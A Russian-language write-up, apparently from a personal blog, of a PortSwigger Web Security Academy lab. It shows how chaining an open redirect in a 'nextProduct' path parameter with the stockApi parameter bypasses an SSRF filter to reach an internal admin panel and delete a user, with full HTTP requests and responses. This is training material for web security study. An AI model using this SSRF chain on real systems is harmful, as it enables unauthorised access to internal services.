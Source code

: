 ```yaml
---
title: "SSRF with filter bypass via open redirection vulnerability"
date: 2025-08-21
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/ssrf-attacks/ssrf-attacks-circumventing-defenses/ssrf/lab-ssrf-filter-bypass-via-open-redirection"
classes: wide
---
```


Для решения лабы нужно удалить пользователя `carlos`, получив доступ к кабинету админа `http://192.168.0.12:8080/admin`.

```
https://0a810022044da5f780d2817c00320062.web-security-academy.net/
```

## Solution

Известно, что тут есть узявимость **SSRF**, а значит нужно найти запрос, который содержит в себе адрес удаленного сервиса. Немного погуляв по сайту, нашел следующий запрос:

```http
POST /product/stock HTTP/2
Host: 0a810022044da5f780d2817c00320062.web-security-academy.net
Cookie: session=4AvVEzAX1KGOlGpO61s28eqVOmczi6k8; session=FGHul2TxRLaPWelwgX7Kfvo7N9k4FwPu
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a810022044da5f780d2817c00320062.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 65
Origin: https://0a810022044da5f780d2817c00320062.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

stockApi=%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```

Могу предположить, что через `stockApi` можно передать нужный адрес:

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 48

"Invalid external stock check url 'Invalid URL'"
```

Ну не все так просто, как могло показаться(

На странице товара увидел кнопку `Next product`. Она отправляет следующий запрос:

```http
GET /product/nextProduct?currentProductId=1&path=/product?productId=2
```

В параметре `path` указывается путь до нужно страницы. Попробую подставить путь до картинки:

```http
GET /product/nextProduct?currentProductId=1&path=/image/productcatalog/products/59.jpg HTTP/2
Host: 0a810022044da5f780d2817c00320062.web-security-academy.net
Cookie: session=67v801jAftj4fL192RkkEgHPX4BfYN95; session=FGHul2TxRLaPWelwgX7Kfvo7N9k4FwPu
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a810022044da5f780d2817c00320062.web-security-academy.net/product?productId=1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Ответ:

```http
HTTP/2 302 Found
Location: /image/productcatalog/products/59.jpg
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

Меня перенаправило, а значит тут есть узявимость **Open redirection**. Попробую добавить `path=http://192.168.0.12:8080/admin` в запрос.


```http
POST /product/stock HTTP/2
Host: 0a810022044da5f780d2817c00320062.web-security-academy.net
Cookie: session=4AvVEzAX1KGOlGpO61s28eqVOmczi6k8; session=FGHul2TxRLaPWelwgX7Kfvo7N9k4FwPu
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a810022044da5f780d2817c00320062.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 65
Origin: https://0a810022044da5f780d2817c00320062.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin
```

Ответ:

```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
X-Frame-Options: SAMEORIGIN
Content-Length: 3177

...

```

Получил ответ. А в нем и нужный запрос для удаления пользователя.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_ssrf/IMG_SSRF_with_filter_bypass_via_open_redirection_vulnerability/1.png){: height="200" .align-center}

```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
X-Frame-Options: SAMEORIGIN
Content-Length: 3019

...

```

Пользователь удален, а значит лаба решена)

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_ssrf/IMG_SSRF_with_filter_bypass_via_open_redirection_vulnerability/2.png){: height="200" .align-center}

